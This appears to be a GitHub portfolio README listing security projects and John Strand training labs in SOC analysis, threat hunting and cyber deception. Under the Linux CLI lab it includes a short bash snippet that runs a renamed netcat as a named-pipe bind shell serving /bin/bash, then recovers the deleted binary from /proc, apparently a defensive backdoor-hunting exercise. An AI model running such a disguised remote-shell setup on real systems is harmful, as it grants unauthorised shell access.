 # All Projects

[Vulnerability Management Tenable](/Vulnerability%20Management%20Tenable)

[Password Strength Checker and Password Generator](/Password)

[EXIF data](/EXIF%20data)

[Subdomain Enumeration and Reconnaissance](/Subdomain%20Enumerator)

[Bypass Windows Login Screen](Bypass%20Windows%20Login%20Screen)

[Linux Login Bypass and Prevention](/Linux%20Login%20Bypass%20and%20Prevention)

[Caesar Cipher Encryptor and Decryptor](/Caesar%20Cipher%20Encryptor%20and%20Decryptor)

[LSB Steganography](/LSB%20Steganography)

[Linkedin Automated Messaging](/Linkedin%20Automated%20Messaging)

[Password Hash Cracker](/Password%20Hash%20Cracker)



# Intro
## SOC Core Skills with John Strand by Antisyphon Training (Successfully finished practice labs)

  - [Linux CLI](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/LinuxCLI/LinuxCLI.md)
  
```bash
mv /nc ./notnetcat
mknod backpipe p
/bin/bash backpipe 0<backpipe | notnetcat -l 2222 1>backpipe

#Other Terminal
nc 10.10.104.64 2222
rm ./notnetcat

netcat gone but still works
cd /proc/11625
cp ./exe /tmp/backupexe
cd /tmp
strings ./backupexe | less
```

  - [Memory Analysis (Volatility)](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/Memory/MemoryAnalysis(Volatility).md)
  - [TCPDump](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/TCPDump/TCPDump.md)
  - [Web Log Review](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/WebLogReview/WebLogReview.md)
  - [WindowsCLI](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/WindowsCLI/WindowsCLI.md)
  - [Wireshark](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/Wireshark/Wireshark.md)
  - [RITA](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/RITA/RITA.md)
  - [Nessus](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/nessus/Nessus.md)
  - [Web Testing](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/WebTesting/WebTesting.md)
  - [DeepBlueCLI](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/deepbluecli/DeepBlueCLI.md)
  - [Domain Log Review](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/DomainLogReview/DomainLogReview.md)
  - [Velociraptor](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/Velociraptor/Velociraptor.md)
  - [Firewall Log Review](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/FirewallLog/FirewallLog.md)
  - [Elk In The Cloud](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/md/elk_in_the_cloud.md)
  - [Elastic Agent](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/md/elastic_agent.md)
  - [Sysmon in ELK](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/md/sysmon_logs.md)
  - [Lima Charlie](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/limacharlie/limacharlie.md)
  - [Lima Charlie & Atomic Red](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/LCmeetsAtomicRed/LCAR.md)
  - [AC Hunter CE](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/ACHCE/ACHunterCE.md)
  - [Hunting DCSync, Sharepoint and Kerberoasting](https://github.com/strandjs/IntroLabs/tree/master/IntroClassFiles/Tools/IntroClass/PoisoningtheWellIR-main)

## Getting Started in Security with BHIS and MITRE ATT&CK with John Strand by Antisyphon Training (Successfully finished practice labs)

 - [Applocker](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/AppLocker/AppLocker.md)
 - [Atomic RedTeam and Bluespawn](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/bluespawn/Bluespawn.md)
 - [DeepBlueCLI](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/deepbluecli/DeepBlueCLI.md)
 - [Nessus](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/nessus/Nessus.md)
 - [Host Firewalls and Nmap](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/Nmap/Nmap.md)
 - [Password Cracking](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/PasswordCracking/PasswordCracking.md)
 - [Password Spraying](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/PasswordSpray/PasswordSpray.md)
 - [Responder](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/Responder/Responder.md)
 - [RITA and AC Hunter](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/RITA/RITA.md)
 - [Sysmon](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/Sysmon/Sysmon.md)
 - [Web Testing](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/WebTesting/WebTesting.md)
 - [Falcon](https://github.com/strandjs/IntroLabs/blob/master/IntroClassFiles/Tools/IntroClass/falcon.md)
 - [ConnectSecure](https://github.com/strandjs/IntroLabs/blob/master/IntroClassFiles/Tools/IntroClass/Connectsecure.md)
 - [Azure IR](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/AZURE-MSP-WRITEUP-main/README.md)
 - [AC Hunter CE](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/ACHCE/ACHunterCE.md)
  
## Active Defense & Cyber Deception With John Strand by Antisyphon Training (Ongoing practice labs)

  - [Spidertrap](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/Spidertrap.md)
  - [Cowrie](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/Cowrie.md)
  - [Canarytokens](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/canarytokens/Canarytokens.md)
  - [RITA](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/RITA/RITA.md)
  - [Bluespawn](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/bluespawn/Bluespawn.md)
  - [Portspoof](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/Portspoof.md)
  - [HoneyBadger](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/HoneyBadger.md)
  - [HoneyShare](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/honeyshare/HoneyShare.md)
  - [HoneyUser](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/honeyuser/honeyuser.md)
  - [AdvancedC2](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/pcap/AdvancedC2PCAPAnalysis.md)
  - [WebHoneypot](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/webhoneypot/webhoneypot.md)
  - [File Audit](https://github.com/KAISERaustin/IntroLabsRemastered/blob/master/IntroClassFiles/Tools/IntroClass/FileAudit/FileAudit.md)

